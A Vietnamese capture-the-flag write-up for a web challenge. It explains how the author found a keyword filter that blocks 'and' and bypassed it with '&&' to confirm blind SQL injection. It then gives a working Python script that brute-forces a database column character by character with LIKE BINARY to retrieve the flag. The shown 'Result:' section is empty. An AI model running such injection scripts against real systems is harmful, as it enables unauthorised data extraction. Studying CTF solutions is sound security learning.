 ### IDEA
Đầu tiên khi mình nhìn vào so sánh `==` ở vế trái của câu lệnh `if` thì mình nghĩ đã liên quan đến cái này, vì đây là một so sánh lỏng lẻo, có một số vấn đề bảo mật về việc so sánh như này. Suy nghĩ của mình lúc đó sẽ là tìm `query` trả về `null` và nhập `mission` là một array thì sẽ trả về true và có được flag.
+ Bây giờ mình cần làm là sqli thành công rồi mới tính tới việc tìm query trả về `null`
+ Mình thử với payload ở tham số `heroname` là `saitama' and 1=1-- -` thì server trả về `Wrong way h4ck3r` => một trong mấy kí tự này  đã bị filter. Sau một hồi mình test thì thấy được ở payload trên bị filter `and`.
+ Tiếp theo mình thử payload khác không có `and` -> `saitama' && 1=1-- -`, server trả về `Mission failed` như ban đầu chúng ta nhập vào `saitama`.
+ Thử tiếp payload khác `saitama' && 1=2-- -`, server trả về `Mission failed` => confirm được có thể sqli và tới đây thì mình sẽ blind giá trị ở cột `mission` thôi. 
+ Mình test `like binary %` đều không bị filter nên mình sử dụng những function và char này để tạo query blind

### Payload
```py
import requests
import string

url = 'http://45.122.249.68:10002/getmission.php'
VAL_MISS = ''

def brute_miss():   
    global VAL_MISS
    for i in range(1,500):
        for char in string.digits + string.ascii_letters + '%':
            # print(char,end='\r')
            data = {'heroname':f"saitama'&&mission like binary '{VAL_MISS+char}%'-- -",'mission':'a'}
            r = requests.post(url,data=data)
            # print(r.text)
            if "Mission failed!!!" not in r.text:
                VAL_MISS += char
                break
        if '%' in VAL_MISS:
            break
    return VAL_MISS[:-1]

def getFlag():
    mission = brute_miss()
    data = {'heroname':f"saitama",'mission':mission}
    r = requests.post(url, data=data)
    print(f"mission: {mission}")
    print(f"Flag: {r.text}")

getFlag()
```
Result:
